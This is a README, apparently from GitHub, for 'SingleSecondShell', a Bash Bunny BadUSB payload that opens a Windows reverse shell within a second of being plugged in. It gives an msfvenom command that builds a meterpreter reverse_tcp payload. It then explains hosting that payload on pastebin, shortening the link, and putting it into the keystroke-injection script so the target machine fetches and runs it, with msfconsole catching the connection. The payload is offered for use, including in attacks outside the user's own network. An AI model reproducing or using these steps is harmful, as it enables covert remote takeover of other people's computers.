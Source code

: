 # SingleSecondShell

Author: [@0xCoto](https://github.com/0xCoto)

Version: Version 1.0

## Description

Plug in the bash bunny, get a shell. Instantly.

The <1 Second ReverseShell Payload is going to run blazing fast on the Bash Bunny, and cannot work on any other BadUSB devices, such as the USB Rubber Ducky that quick. That is obviosuly the reason this Payload is dedicated and specifically developed for the Bash Bunny. Plug in, and before you know it, you've got a shell. How awesome is that?

## Configuration

#### Generating Payload
In order to generate your reverse_tcp Payload, you need to run the following command on your Kali machine (unless you have msfvenom installed on another OS): ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f psh-cmd –smallest```

Make sure to replace `YOUR_IP` with your local/public IP Address (depending on the type of attack you are looking to perform) and `YOUR_PORT` with the port that you've forwarded (if you are performing a public attack, outside your network).

When the payload is generated, remove everything up to `powershell.exe` and upload it to pastebin. Here's my example: http://pastebin.com/raw/DJbS5mTj

#### Shortening the URL
As you can see, we have a pretty long URL. So, in order to shorten the URL and reduce the amount of keystrokes, therefore attacking time, we are going to be using a URL shortening service, such as https://goo.gl/.

#### Completeing the script
That's it. Now just replace the `$u='YOUR_LINK'` with your new URL. For example: `$u='goo.gl/8ggZD1'`

Note: You do not need to include `http(s)://` in your URL, so you can go ahead and get rid of that too to reduce keystrokes and speedup the keystroke injection.

## Listening to Connections
Listening to connections is pretty straightforward, but I'm not going to cover it in detail in this tutorial. All you need to do is use a listener software, CLI or GUI, such as `msfconsole` or `Armitage`, both of which can be setup to work with each other very easily.

## Bash Bunny Status

| LED              | Status                                |
| ---------------- | ------------------------------------- |
| Red              | Failed to open script file            |
| Amber            | Script Running                        |
| Green            | Finished                              |

